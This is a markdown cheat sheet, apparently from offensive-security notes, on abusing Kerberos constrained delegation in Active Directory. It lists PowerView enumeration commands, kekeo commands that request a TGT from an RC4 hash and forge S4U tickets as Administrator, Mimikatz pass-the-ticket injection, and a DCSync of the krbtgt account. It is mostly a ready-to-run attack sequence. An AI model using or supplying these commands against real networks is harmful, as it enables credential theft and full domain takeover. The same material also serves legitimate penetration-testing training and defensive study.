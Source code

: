 # Constrained Delegation

## Methodology/Steps
> 1. List all the users having Constrained Delegation
> 2. Keep a note of the **msDS-AllowedToDelegateTo** value
> 3. Request for a TGT using the hash of the user with CD using kekeo (Which me must have collected before)
> 4. Keep a note of the TGT return ticket
> 5. Now request a TGS with the 2nd step and 4th step values as parameters in */service* and */tgt*
> 6. Keep a note of the TGS return Ticket
> 7. Now we can inject the TGS return Ticket with **Inkove-Mimikatz**
> 8. We can now list the file systems of that account. Example : **`ls \\dc-mysql\C$`** but *can not* use any **WMI-Commands**
> 9. But if the user DC we can do the same process and then do a **DCSync** attack

## Enumerate users and computers with CD enabled
```powershell
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```

## Requesting a TGT
```shell
tgt::ask /user:websvc /domain:domain.local /rc4:cc098f204c5887eaa8253e7c2749156f
tgt::ask /user:dcorp-adminsrv /domain:domain.local /rc4:1fadb1b13edbc5a61cbdc389e6f34c67
```

## Request a TGS
```shell
tgs::s4u /tgt:TGT.kirbi /user:Administrator@domain.local /service:cifs/computer.domain.LOCAL
tgs::s4u /tgt:TGT.kirbi /user:Administrator@domain.local /service:time/computer.domain.LOCAL|ldap/computer.domain.LOCAL
```

## Inject the ticket
```powershell
Invoke-Mimikatz -Command '"kerberos::ptt TGS.kirbi"'
```

## Execute DCSync 
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```
